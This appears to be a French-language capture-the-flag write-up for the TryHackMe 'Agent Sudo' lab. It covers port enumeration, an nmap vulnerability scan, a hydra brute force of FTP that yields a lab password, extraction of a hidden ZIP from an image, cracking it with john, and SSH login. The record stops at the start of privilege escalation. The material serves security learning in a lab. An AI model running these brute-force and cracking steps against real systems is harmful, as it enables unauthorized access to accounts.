 # THM_agentsudo
try hack me ctf agendsudo
## CTF Report

### Information:
- IP: 10.10.188.104

### Step 1/2: Enumeration

#### Passive Enumeration:
- Utilisation d'un script d'enumeration de port par ChatGPT
  - Retour du script `hostenum.py` :
    ```
    Ports ouverts sur l'adresse IP 10.10.205.190:
    Port 21 est ouvert (Service : ftp)
    Port 22 est ouvert (Service : ssh)
    Port 80 est ouvert (Service : http)
    ```

#### Active Enumeration:
- Recuperation d'info sur le port 80
  - `$ curl http://10.10.205.190 > annex001.txt`
  - `$ curl -A "C" http://10.10.205.190` retourne un message secret, l'option -A specifie l'user-agent
- Recuperation d'info sur le port 21
  - `$ nmap -Pn -sV 10.10.188.104 -p 21`
    ```
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3 Service Info: OS: Unix
    ```
- Recuperation d'info sur le port 22
  - `$ nmap -Pn -sV 10.10.188.104 -p 22`
    ```
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    ```

### Step 3: Chercher une entrée

#### Recherche de vulnérabilité:
- `$ nmap -Pn --script="vuln" 10.10.188.104`
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)

#### Brute force:
- `$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.188.104`
[21][ftp] host: 10.10.188.104 login: chris password: crystal

### Step 4: Obtenir l'accès FTP de Chris

#### Les pièces numériques trouvées sur le serveur FTP se trouvent dans l'annex02.
#### Il se pourrait qu'un message soit caché dans les images
- Analyse du fichier `cutie.png`
- Utilisation de `exiftool` et `binwalk` pour découvrir une archive ZIP cachée.
- Extraction du fichier ZIP
- Utilisation de `zip2john` pour extraire le hash du mot de passe.
- Crackage du mot de passe avec `john`.
- Lecture du message caché dans le fichier `message.txt`.

### Step 5: Obtenir l'accès SSH de James

#### Accès SSH
- Connexion avec les informations trouvées.
- Récupération du flag utilisateur.

#### Privilège Escalation
- `sudo -l` montre les permissions de l'utilisateur James.
